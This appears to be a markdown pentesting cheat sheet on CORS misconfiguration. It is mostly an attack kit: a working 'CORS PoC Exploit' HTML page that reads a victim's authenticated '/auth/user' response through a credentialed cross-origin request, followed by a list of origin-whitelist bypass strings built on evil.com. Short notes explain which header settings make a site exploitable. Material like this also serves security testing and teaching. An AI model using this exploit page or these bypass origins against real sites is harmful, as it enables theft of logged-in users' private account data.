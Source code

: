 ## Introduction 

CORS short of Cross-Origin Resource Sharing is a policy that allows a site to share relevant information to other domains. Misconfiguration might leads to leakage of data to attackers.

## Payloads example

Place following code in the site you control:

```html
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById(“demo”).innerHTML = alert(this.responseText);
}
};
xhttp.open(“GET”, “https://redacted.com/auth/user”, true);
xhttp.withCredentials = true;
xhttp.send();
}
</script>
</head>
<body>
<center>
<h2>CORS PoC Exploit </h2>
<div id=”demo”>
<button type=”button” onclick=”cors()”>Exploit</button>
</div>
</body>
</html>

```

## Some misconfiguration example

- If you find that ```Access-Control-Allow-Origin: *``` is shown in response, it means that the site allows all domains to access information under this domain;

- Sometimes, if ```Access-Control-Allow-Credentials:true```, it means all response can be shown to request within ```Access-Control-Allow-Origin```. Information includes cookies etc. Thus, in this case, even ```Access-Control-Allow-Origin``` set to company's subdomain, if XSS was founded in other subdomain, it also can lead to data leakage; 

- Sometimes, even if ```Access-Control-Allow-Origin``` was set, placing origin with some domain containing white list domain wordings can also bypass the subject check. (e.g. whitelist: request.com, bypass: attackrequest.com or request.com.attack.com). Some other examples of bypass:

```
*.ubnt.com!.evil.com 
*.ubnt.com".evil.com 
*.ubnt.com$.evil.com 
*.ubnt.com%0b.evil.com 
*.ubnt.com%60.evil.com 
*.ubnt.com&.evil.com 
*.ubnt.com'.evil.com 
*.ubnt.com(.evil.com 
*.ubnt.com).evil.com 
*.ubnt.com*.evil.com 
*.ubnt.com,.evil.com 
*.ubnt.com;.evil.com 
*.ubnt.com=.evil.com 
*.ubnt.com^.evil.com 
*.ubnt.com`.evil.com 
*.ubnt.com{.evil.com 
*.ubnt.com|.evil.com 
*.ubnt.com}.evil.com 
*.ubnt.com~.evil.com
```

- 

